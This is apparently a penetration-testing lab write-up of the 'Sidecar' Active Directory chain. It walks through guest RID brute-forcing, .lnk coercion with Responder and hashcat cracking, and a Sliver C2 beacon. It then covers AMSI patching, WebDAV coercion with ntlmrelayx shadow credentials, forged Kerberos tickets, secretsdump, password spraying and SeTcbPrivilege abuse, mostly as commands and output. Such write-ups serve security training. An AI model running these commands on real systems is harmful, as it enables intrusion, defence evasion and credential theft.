

# Before Starting 
```console
Me > 10.8.2.163
Target > 10.10.210.69 (DC01) ; 10.10.210.70 (WS01)
```
```bash
                            ####### WS01 #######

PORT     STATE SERVICE            VERSION
135/tcp  open  msrpc              Microsoft Windows RPC
139/tcp  open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds       Windows 10 Enterprise 10240 microsoft-ds (workgroup: SIDECAR)
3389/tcp open  ssl/ms-wbt-server?         
|_ssl-date: 2024-02-25T17:19:47+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=ws01.Sidecar.vl
| Issuer: commonName=ws01.Sidecar.vl
| Public Key type: rsa               
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-12-01T14:50:58
| Not valid after:  2024-06-01T14:50:58
| MD5:   bf95054282951a4ae25f660daffd32e6   
|_SHA-1: 13534e4043fc6a14dd761489803358e0306608ba
| rdp-ntlm-info:              
|   Target_Name: SIDECAR                             
|   NetBIOS_Domain_Name: SIDECAR
|   NetBIOS_Computer_Name: WS01    
|   DNS_Domain_Name: Sidecar.vl
|   DNS_Computer_Name: ws01.Sidecar.vl
|   DNS_Tree_Name: Sidecar.vl
|   Product_Version: 10.0.10240
|_  System_Time: 2024-02-25T17:19:37+00:00

                            ####### DC01 #######

PORT     STATE SERVICE       VERSION              
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-25 17:18:09Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: Sidecar.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject:                                    
| Subject Alternative Name: DNS:DC01.Sidecar.vl, DNS:Sidecar.vl, DNS:SIDECAR                                    
| Issuer: commonName=Sidecar-CA                                
| Public Key type: rsa                   
| Public Key bits: 2048                          
| Signature Algorithm: sha256WithRSAEncryption    
| Not valid before: 2023-12-10T15:56:40
| Not valid after:  2024-12-09T15:56:40
| MD5:   62c47cef2e582ad7f5f891a6b9702ba6
|_SHA-1: b6de4e43affd1d6bef93178d2b930940b60f7c96
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: Sidecar.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.Sidecar.vl, DNS:Sidecar.vl, DNS:SIDECAR
| Issuer: commonName=Sidecar-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-12-10T15:56:40
| Not valid after:  2024-12-09T15:56:40
| MD5:   62c47cef2e582ad7f5f891a6b9702ba6
|_SHA-1: b6de4e43affd1d6bef93178d2b930940b60f7c96
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: Sidecar.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.Sidecar.vl, DNS:Sidecar.vl, DNS:SIDECAR
| Issuer: commonName=Sidecar-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-12-10T15:56:40
| Not valid after:  2024-12-09T15:56:40
| MD5:   62c47cef2e582ad7f5f891a6b9702ba6
|_SHA-1: b6de4e43affd1d6bef93178d2b930940b60f7c96
|_ssl-date: TLS randomness does not represent time
3389/tcp open  ms-wbt-server Microsoft Terminal Services 
| ssl-cert: Subject: commonName=DC01.Sidecar.vl
```
## Guest session

```bash
cme smb 10.10.210.69 -u 'toto' -p ''
SMB         10.10.210.69    445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:Sidecar.vl) (signing:True) (SMBv1:False)
SMB         10.10.210.69    445    DC01             [+] Sidecar.vl\toto:

cme smb 10.10.210.69 -u 'toto' -p '' --rid-brute

# lead to this users wordlist :

DC01$
A.Roberts
J.Chaffrey
O.osvald
P.robinson
M.smith
E.Klaymore
svc_deploy
WS01$
Administrator

cme smb 10.10.210.69 -u 'toto' -p '' --shares
SMB         10.10.210.69    445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:Sidecar.vl) (signing:True) (SMBv1:False)
SMB         10.10.210.69    445    DC01             [+] Sidecar.vl\toto:
SMB         10.10.210.69    445    DC01             [*] Enumerated shares
SMB         10.10.210.69    445    DC01             Share           Permissions     Remark
SMB         10.10.210.69    445    DC01             -----           -----------     ------
SMB         10.10.210.69    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.210.69    445    DC01             C$                              Default share
SMB         10.10.210.69    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.210.69    445    DC01             NETLOGON                        Logon server share
SMB         10.10.210.69    445    DC01             Public          READ
SMB         10.10.210.69    445    DC01             SYSVOL                          Logon server share
```
Then we can login :

```bash
smbclient.py 'WS01.sidecar.vl'/'toto'@10.10.210.69
```
And in ```Public\Common\Custom```, we can found this :

```console
# cat info.txt
Folder for custom shortcuts & internet links.
```
## Foothold with .lnk

So let's setup 2 files .lnk, one for testing with a responder if someone come in this directory for get our files and the second for getting a shell if the responder is working


Ok now put the 'responder.lnk' in ```Public\Common\Custom```

```bash
Responder.py -I tun0
```


Now try to crack him :

```bash
hashcat --hash-type 5600 --attack-mode 0 hash.txt /usr/share/wordlists/rockyou.txt
```


Ok so let's try to get a shell, for this i'm gonna use sliver as C2 and a payload that can bypass Windows Defender (because he is on WS01), the payload is from the wiki of vulnlab and i believe this site is only for VL subscribers so i don't know if i can share how to have the same payload as me

So just put the sidecar.lnk that i setup at the start of this chain and setup sliver like that :


So :

```console
> /opt/tools/sliver/sliver-server_linux
> new-operator --name samy --lhost localhost
> multiplayer

(in another shell) : 

> /opt/tools/sliver/sliver-client_linux import /workspace/sidecar/samy_localhost.cfg
> /opt/tools/sliver/sliver-client_linux
> armory install all
> mtls
```
```bash
# in the smb
> put sidecar.lnk
# in another terminal
python3 -m http.server
```


And we have our beacon !!

## WS01 ShadowCreds Attack

Now, on bloodhound nothing is interesting so we just have a shell on WS01 with a user who don't have any interesting permissions

But afer some enumeration, using GetWebDAVStatus we can verify if the webclient service is enabled

```bash
sliver (sidecar-http) > execute -o "GetWebDAVStatus.exe" "ws01"

[*] Output:
[x] Unable to reach DAV pipe on ws01, system is either unreachable or does not have WebClient service running
```
So we can try to enable him using our ip 

[How to enable him](https://www.thehacker.recipes/a-d/movement/mitm-and-coerced-authentications/webclient#start-the-webclient-service)

```console
Responder.py -I tun0

sliver (sidecar-http) > execute -o "cmd.exe" "/c net use h: http://10.8.2.163/"
```


We can therefore try to coerce WS01 in order to, for example, carry out a shadowcreds attack like that :

[Abuse](https://www.thehacker.recipes/a-d/movement/mitm-and-coerced-authentications/webclient#abuse)

But first we need to add a record for our ip, we can do that with ```Powermad.ps1``` like that :

```New-ADIDNSNode -Tombstone -Verbose -Node WIN-PH5EYU9RDZ0 -DATA 10.8.2.163```

Since we can't have powershell because of windows defender, we have to execute powershell commands like this :

```bash
sliver (sidecar-http) > execute -o "powershell.exe" "whoami"

[*] Output:
sidecar\e.klaymore
```
but by doing this, it creates a new process 'powershell.exe' every time, so if we do ```execute -o "powershell.exe" ". .\Powermad.ps1"```, Powermad will only load on the process that we have just launched, this will lead to this error


To bypass this, I just made a .ps1 script which loads Powermad and executes ```New-ADIDNSNode -Tombstone -Verbose -Node WIN-PH5EYU9RDZ0 -DATA 10.8.2.163``` at the same time (yes, as weird as it may seem, it works)

We could also do this: spawn notepad, with ```execute```, inject the msf payload in it, with ```msf-inject``` after this, go into meterpreter and load powershell then use the ```inject-amsi-bypass``` on the same notepad process which now will make that process "AMSI free" after this, use ```powershell-import``` to import powermad and ```powershell_shell``` to spawn powershell in meterpreter

But we will use the first solution which is the simplest, so we can bypass the amsi on the process where we are and execute my .ps1 file like that :

```bash
sliver (sidecar-http) > getpid

> 908

sliver (sidecar-http) > inject-amsi-bypass 908

[*] Successfully executed inject-amsi-bypass (coff-loader)
[*] Got output:
Attempting to patch AMSI in remote process with PID: 908Success - Patched AMSI.AmsiOpenSession in remote process: PID:908
```
```powershell
# toto.ps1
. .\Powermad ; New-ADIDNSNode -Tombstone -Verbose -Node WIN-PH5EYU9RDZ0 -DATA 10.8.2.163
```


Ok now for those who made MIST on HTB, this will bring back memories :

We gonna use this pull request : [https://github.com/fortra/impacket/pull/1402](https://github.com/fortra/impacket/pull/1402)

Let's start the attack with Ntlmrelayx, Responder and SpoolSample :

First config this file ```cat /etc/responder/Responder.conf``` like that :

```console
; Servers to start
SQL = On
SMB = Off
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = Off
DNS = On
LDAP = Off
DCERPC = On
WINRM = On
SNMP = Off
MQTT = On
```
Then install impacket with the pull request :

```console
git clone -b interactive-ldap-shadow-creds https://github.com/Tw1sm/impacket.git
python3 -m venv .venv
source .venv/bin/activate
#adjust requirements.txt for pyOpenSSL==23.2.0
python3 setup.py install
```
Start ntlmrelayx :

```bash
python3 ntlmrelayx.py -t ldaps://dc01.sidecar.vl --delegate-access -i
Impacket v0.10.1.dev1+20220912.224808.5fcd5e81 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client SMTP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```
Upload SpoolSample.exe on sliver and use him for using coercion from WS01$

```bash
sliver (sidecar-http) > upload SpoolSample.exe

[*] Wrote file to C:\Users\e.klaymore\Desktop\SpoolSample.exe

sliver (sidecar-http) > inline-execute-assembly SpoolSample.exe "10.10.210.70 WIN-DGY7OZWUTMM@80/toto.txt"
```


Now we can go in the ldap shell and set shadow_creds :

```console
nc localhost 11000

# clear_shadow_creds WS01$
Found Target DN: CN=WS01,CN=Computers,DC=Sidecar,DC=vl
Target SID: S-1-5-21-3976908837-939936849-1028625813-2101

Shadow credentials cleared successfully!

# set_shadow_creds WS01$
Found Target DN: CN=WS01,CN=Computers,DC=Sidecar,DC=vl
Target SID: S-1-5-21-3976908837-939936849-1028625813-2101

KeyCredential generated with DeviceID: 9df41db1-4cef-3b1d-8223-dda6fd56c1fb
Shadow credentials successfully added!
Saved PFX (#PKCS12) certificate & key at path: oCleigu1.pfx
Must be used with password: mBRKWrFeqcbCyPMOI8R1
```
Thanks to PKINIT tools we can get a TGT and the NTHash for WS01$

```bash
gettgtpkinit.py -cert-pfx "oCleigu1.pfx" -pfx-pass "mBRKWrFeqcbCyPMOI8R1" "sidecar.vl/WS01$" "WS01_ccache"

2024-08-24 16:10:27,374 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-08-24 16:10:27,418 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2024-08-24 16:10:42,012 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2024-08-24 16:10:42,012 minikerberos INFO     12acd999464c95dbf1431f3a8e086e13f70c5731a674fc78292795224af9a166
INFO:minikerberos:12acd999464c95dbf1431f3a8e086e13f70c5731a674fc78292795224af9a166
2024-08-24 16:10:42,027 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file

export KRB5CCNAME=WS01_ccache

getnthash.py -key '12acd999464c95dbf1431f3a8e086e13f70c5731a674fc78292795224af9a166' sidecar.vl/'WS01$'
[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
9c[...]dc
```
Ok now we need to impersonate the Administrator of WS01$ to secretsdump, we can do this with ticketer :

```bash
# Get the --domain-sid with sliver :
sliver (sidecar-http) > getuid

S-1-5-21-3976908837-939936849-1028625813-1609

# So the --domain-sid is S-1-5-21-3976908837-939936849-1028625813

ticketer.py -nthash 9cdc4501e630a30cc0eeef79f23a62dc -domain-sid S-1-5-21-3976908837-939936849-1028625813 -domain sidecar.vl -dc-ip 10.10.210.69 -spn HOST/WS01.mist.htb Administrator
Impacket v0.10.1.dev1+20220912.224808.5fcd5e81 - Copyright 2022 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for sidecar.vl/forwriteup
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in Administrator.ccache

export KRB5CCNAME=Administrator.ccache

secretsdump.py ws01.sidecar.vl -k
```
## Getting a shell in DC01

Now we can crack the hash of "Deployer" with crackstation and it give to us password that we can spray on all users

```bash
cme smb 10.10.210.69 -u users.txt -p 'REDACTED' --continue-on-success
SMB         10.10.210.69    445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:Sidecar.vl) (signing:True) (SMBv1:False)
SMB         10.10.210.69    445    DC01             [-] Sidecar.vl\DC01$:Aces&Eights STATUS_LOGON_FAILURE
SMB         10.10.210.69    445    DC01             [-] Sidecar.vl\A.Roberts:Aces&Eights STATUS_LOGON_FAILURE
SMB         10.10.210.69    445    DC01             [-] Sidecar.vl\J.Chaffrey:Aces&Eights STATUS_LOGON_FAILURE
SMB         10.10.210.69    445    DC01             [-] Sidecar.vl\O.osvald:Aces&Eights STATUS_LOGON_FAILURE
SMB         10.10.210.69    445    DC01             [-] Sidecar.vl\P.robinson:Aces&Eights STATUS_LOGON_FAILURE
SMB         10.10.210.69    445    DC01             [-] Sidecar.vl\M.smith:Aces&Eights STATUS_LOGON_FAILURE
SMB         10.10.210.69    445    DC01             [-] Sidecar.vl\E.Klaymore:Aces&Eights STATUS_LOGON_FAILURE
SMB         10.10.210.69    445    DC01             [+] Sidecar.vl\svc_deploy:REDACTED
```
## Exploit TcbPrivilege

Just WINRM as svc_deploy and check the privileges :
```bash
evil-winrm -u 'svc_deploy' -p 'REDACTED' -i 10.10.210.69

*Evil-WinRM* PS C:\Users\svc_deploy\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeTcbPrivilege                Act as part of the operating system Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
```
As we can see we have ```SeTcbPrivilege```enable, we gonna abuse of this thanks to this script that we need to compile : [https://gist.github.com/antonioCoco/19563adef860614b56d010d92e67d178](https://gist.github.com/antonioCoco/19563adef860614b56d010d92e67d178)

After compile it just run the script like that :


And connect with the new user :

```bash
evil-winrm -u 'ethicxz' -p 'N3wP@ssw0rd' -i 10.10.210.69

Evil-WinRM shell v3.5

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ethicxz\Documents> cd /Users
*Evil-WinRM* PS C:\Users> cd Administrator/Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         12/2/2023   3:02 AM             74 root.txt
```
Nice !!

If you have any comments on this write up or any questions you can dm me on [instagram](https://instagram.com/eliott.la) or on discord : 'ethicxz.'

